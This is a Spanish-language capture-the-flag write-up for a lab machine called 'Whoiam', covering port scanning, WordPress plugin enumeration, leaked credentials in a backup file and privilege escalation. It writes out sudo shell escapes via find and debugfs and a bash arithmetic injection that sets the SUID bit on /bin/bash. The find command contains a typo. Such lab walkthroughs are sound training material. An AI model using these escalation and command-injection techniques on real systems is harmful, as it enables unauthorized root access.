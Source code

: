 # Whoiam
## Reconocimiento
### Nmap
En primer lugar llevo a cabo un escaneo de puertos con el objetivo de identificar los servicios activos y los puertos en los que están corriendo.
```bash
❯ nmap -p 0-65535 --open -T5 -A -sT -Pn -n 172.19.0.2 -oX nmapScan.xml && xsltproc nmapScan.xml -o nmapScan.html && open nmapScan.html &>/dev/null & disown
```

![[Ciberseguridad/Hacking/Writeups/253_septiembre/15-whoiam/imgs/nmap.png]]

Se trata de un servidor HTTP sirviendo una página hecha en WordPress 6.5.4, al visitarla, me encuentro con esto

![[whoiam.png]]

No hay nada más a parte de eso y el botón no lleva ningún enlace, así que lo siguiente va a ser hacer fuzzing y utilizar `whatweb` para recavar más información y encontrar un punto de entrada.
El fuzzing revela básicamente los archivos típicos de un sitio de wordpress, nada fuera de lo usual, y `whatweb` tampoco saca nada especialmente interesante que no tuviera ya gracias al escaneo de puertos.
Lo lógico ahora es usar `wpscan` para obtener más información sobre la web
```SHELL
❯ wpscan --url http://172.19.0.2/ -e u, vp, vt --api-token 0000000000000000000000000000
```
El escaneo revela varias vulnerabilidades que no estoy seguro de que vayan a serme útiles y dos usernames: `erik` y `developer`. Voy a probar a hacer ataques de diccionario a ambos usuarios usando la misma herramienta, a ver si dan resultado.
Cuando veo que no funciona el ataque me doy cuenta de que no he enumerado bien con `wpscan`, lanzo el comando de nuevo corregido.
```shell
❯ wpscan --url http://172.19.0.2/ -e p --api-token 0000000000000000000000000000
```

El escaneo bien configurado revela un plugin con un más que amplio historial de vulnerabilidades que puedo explotar. Hago uso de `searchsploit` y después de Metasploit para utilizar el exploit en la página.

```shell
❯ searchsploit modern events calendar lite
---------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                      |  Path
---------------------------------------------------------------------------------------------------- ---------------------------------
Wordpress Plugin Modern Events Calendar 5.16.2 - Event export (Unauthenticated)                     | php/webapps/50084.py
Wordpress Plugin Modern Events Calendar 5.16.2 - Remote Code Execution (Authenticated)              | php/webapps/50082.py
WordPress Plugin Modern Events Calendar V 6.1 - SQL Injection (Unauthenticated)                     | php/webapps/50687.py
❯ msfdb run
msf6 > search modern calendar
Matching Modules
================

   #  Name                                                     Disclosure Date  Rank       Check  Description
   -  ----                                                     ---------------  ----       -----  -----------
   0  auxiliary/scanner/http/wp_modern_events_calendar_sqli    2021-12-13       normal     Yes    WordPress Modern Events Calendar SQLi Scanner
   1  exploit/multi/http/wp_plugin_modern_events_calendar_rce  2021-01-29       excellent  Yes    Wordpress Plugin Modern Events Calendar - Authenticated Remote Code Execution
msf6 > use 1
```

En este caso voy a usar el exploit de index 0, así que lanzo `use 0` y después `options` para configurar los parámetros del exploit.
Después de probar ambos exploit veo que ninguno funciona, el 0 se queda atascado y el 1 requiere la contraseña del administrador (quizá sea útil más adelante).
Voy a lanzar un fuzzing de nuevo por si me hubiera dejado algo interesante.
Encuentro una ruta que había pasado por alto pero que tiene un archivo muy interesante, se trata de `/backup`, al visitarla esto es lo que hay

![[backup.png]]

## Explotación
Bajo el archivo, lo descomprimo y un cat revela que el contenido son las credenciales de developer y su password.

![[unzip.png]]

Se me ocurre que se podría probar de nuevo el exploit que requería contraseña, ya que ahora sí la tengo. 

![[adminadmin.png]]

Me estaba dando problemas entrar como `developer` así que creé un usuario y conseguí entrar.

## Post-explotación
Al entrar como `www-data` y hacer `sudo -l`, veo que puedo ejecutar `find` como el usuario `rafa`, y pivoto fácilmente con
```
sudo -u rafa find . -exev /bin/sh \;quit
```

![[rafa.png]]

Ya autenticado como rafa, al hacer `sudo -l` de nuevo veo que es posible pivotar a `ruben` haciendo uso del binario `debugfs`.
```
sudo -u ruben debugfs
!/bin/bash
```

![[penguinsh.png]]

Una vez estoy dentro como ruben, al hacer `sudo -l` veo que puedo ejecutar bash en un script alojado en `/opt`, al hacerle un cat vep su contenido:
```
cat penguin.sh
#!/bin/bash

read -rp "Enter guess: " num

if [[ $num -eq 42 ]]
then
  echo "Correct"
else
  echo "Wrong"
fi
```

El código da como valor correcto el input `42`, entonces, con la siguiente línea se "engaña" al código para añadir el bit SUID al binario bash, permitiendo que si cualquier usuario lo ejecuta con el parámetro `-p` herede los permisos del dueño, es decir, `root`.
```
sum[$(chmod u+s /bin/bash >&2)]+42
```


![[Ciberseguridad/Hacking/Writeups/253_septiembre/15-whoiam/imgs/root.png]]